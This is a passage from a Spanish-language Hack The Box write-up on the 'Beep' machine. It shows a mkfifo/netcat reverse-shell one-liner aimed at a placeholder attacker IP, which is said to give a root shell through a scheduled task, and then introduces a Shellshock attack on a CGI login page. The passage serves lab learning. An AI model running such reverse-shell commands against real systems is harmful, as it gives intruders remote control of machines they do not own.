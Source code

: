 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <nuestraIP> <puertoCualquiera> >/tmp/f
```
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/20.png)

Después de darle a `save`, y habiendo pasado el tiempo que hayamos programado, conseguiremos una shell como el usuario root, por lo que nuevamente, no hizo falta la escalada de privilegios.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/21.png)

De modo que podremos leer sin problema alguno tanto la flag del usuario con bajos privilegios, como la del usuario con máximos privilegios.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/22.png)

### [](#header-3)Fase De Explotación - Shellshock

Si nos percatamos, en el ataque anterior, depués de haber intentado ingresar como un usuario no válido, se añade al _url_ `/session_login.cgi`

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/23.png)

Esto llama nuestra atención ya que los archivos de extensión `.cgi`, o dentro del directorio `/cgi-bin/`, son utilizados para ejecutar programas en el servidor, y esto lo hacen a través de una interfaz de línea comandos (CLI), por lo que, si la bash es vulnerable, podemos realizar un ataque [shellshock](https://mateonitro550.github.io/Shellshock).
